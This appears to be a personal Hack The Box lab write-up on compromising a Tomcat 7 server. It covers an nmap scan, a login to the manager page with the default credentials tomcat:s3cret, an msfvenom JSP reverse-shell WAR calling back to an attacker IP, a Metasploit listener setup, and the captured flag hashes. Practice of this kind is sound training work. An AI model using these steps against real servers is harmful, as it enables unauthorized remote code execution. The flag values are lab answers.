

**Start 20:48 22-08-2024**

---
```
10.10.10.95
```
## Recon

### Nmap
I discovered that there is only one port open on the target machine `8080` so I decided to check only that one
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -Pn -T5 -vvvv -p8080 10.10.10.95
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-22 19:49 IST

Nmap scan report for 10.10.10.95
Host is up, received user-set (0.085s latency).
Scanned at 2024-08-22 19:49:40 IST for 12s
PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
```
We see that it runs `Apache Tomcat version 1.1`.

### 8080/TCP - HTTP

I went to the website and went to the `/manager/html` endpoint where I found some default creds.


```
tomcat:s3cret
```

When prompted to sign in I used these creds and got right in:


We see that we can deploy `.war` files on here. When we scroll to the bottom of the website we find some details about the version running:


I looked up some `RCE` exploits and found [this site to be useful](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/):


So we too will run the same payload:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=9999 -f war -o shell.war
```

```bash
┌──(kali㉿kali)-[~]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=9999 -f war -o shell.war
Payload size: 1099 bytes
Final size of war file: 1099 bytes
Saved as: shell.war
```

Now I will start a `metasploit listener`:

```bash
msfconsole

msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be sp
                                     ecified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set payload java/jsp_shell_reverse_tcp 
payload => java/jsp_shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => 10.10.14.8
msf6 exploit(multi/handler) > set LPORT 9999
LPORT => 9999
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.8:9999
```

Now I upload the `.war` file to the `Apache Tomcat manager` then click deploy :



Click on it and the connection should pop up in `metasploit`:


## Flags

This will be a combination of 2 flags in one place, simply head to the following directory and there will be one file with both flags in them:

```powershell
C:\Users\Administrator\Desktop\flags
```

```powershell
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\Users\Administrator\Desktop\flags>
```


---

**Finished 21:09 22-08-2024**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
